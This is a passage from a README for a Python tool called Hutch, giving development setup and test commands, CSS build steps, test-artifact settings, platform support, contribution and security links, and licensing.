Hutch still checks containment and fails closed when unavailable. Credential tests
use isolated synthetic stores; real account connections require an unlocked OS vault.

```bash
uv sync --extra dev --extra browser
uv run python -m playwright install --with-deps chromium
uv run pytest --ignore=tests/e2e   # includes one browser-dependent coding-repair acceptance test
uv run pytest -q
uv run hutch init && uv run hutch serve   # opens the real empty setup state; no sample activity is seeded
```

When you edit dashboard or marketing-site styles, build the CSS from its sources with
`npm install && npm run build:css` (`npm run watch:css` / `npm run watch:css:app` while editing);
keep style changes in the source files, not the generated CSS outputs.

Browser screenshots and traces go to a fresh temporary directory by default. Set
`HUTCH_TEST_ARTIFACTS_DIR` only when you intend to retain or refresh evidence.
The `dev` extra includes the optional WebSocket package used by deterministic loopback Jetstream tests; Hutch's
`jetstream` product extra remains optional. CI installs `dev` and `browser`, then provisions Chromium before running
the full suite.
The event-writer throughput check is sensitive to the filesystem used for its temporary database.
When running the full suite locally on a slow or busy disk, point `HUTCH_TEST_BENCHMARK_DIR` at
a fresh RAM-backed directory (for example, a unique directory under `/dev/shm` on Linux); keep
that separate from the test artifact directory.

Python ≥ 3.11. Linux first; macOS/Windows are roadmap items.

## Contributing and security

See [CONTRIBUTING.md](CONTRIBUTING.md) for setup, tests, and documentation conventions,
[SECURITY.md](SECURITY.md) for private vulnerability reporting, and
[CODE_OF_CONDUCT.md](CODE_OF_CONDUCT.md) for community expectations.

## License

MIT: see [LICENSE](LICENSE).

Third-party notices for bundled frontend assets are in [THIRD_PARTY_NOTICES.md](THIRD_PARTY_NOTICES.md). Native dependency inventories remain a release gate.
